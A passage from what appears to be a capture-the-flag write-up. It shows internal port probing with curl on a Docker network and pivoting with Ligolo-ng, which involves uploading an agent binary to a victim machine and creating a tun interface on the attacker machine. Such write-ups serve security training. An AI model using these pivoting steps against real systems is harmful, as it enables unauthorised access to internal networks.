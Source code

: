 Using cURL, the potential ports could be probed on the Docker network to see if anything is returned:

```bash
curl -I http://172.18.0.1:8081
```

![](Build-PowerDNS.png)

It appears these ports are open on the 172.18.0.1 machine and can be accessed from here.
## Pivoting w/ Ligolo

TO gain access to the internal network, there are various ways, but Ligolo-ng is my preferred method. First, transfer the agent binary over to the victim machine (easy with Penelope):

```bash
upload /home/zeus/Tools/Ligolo-Agent/agent
```

![](Build-Agent.png)

After uploading the binary, the network should be set up on the attacker machine by adding network interfaces for Ligolo:

```bash
sudo ip tuntap add user zeus mode tun ligolo
sudo ip link set ligolo up
```


![](Build-LigoloSetup.png)
